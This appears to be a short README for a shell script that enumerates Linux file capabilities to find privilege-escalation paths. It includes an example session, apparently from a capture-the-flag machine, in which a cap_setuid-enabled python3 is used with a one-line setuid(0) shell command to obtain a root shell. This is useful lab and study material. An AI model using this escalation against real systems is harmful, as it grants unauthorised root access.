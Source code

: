 # cap
script for searching PATH or parameters for any executables caps applied to them.
This may lead to privelage esclastion
for more -> https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

#Example
```
nathan@cap:~$ ./caps.sh 
find: ‘—’: No such file or directory
find: ‘/home/nathan/—’: No such file or directory
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'                                                                                                                    
# id                                                                                                                                                                                        
uid=0(root) gid=1001(nathan) groups=1001(nathan)

```
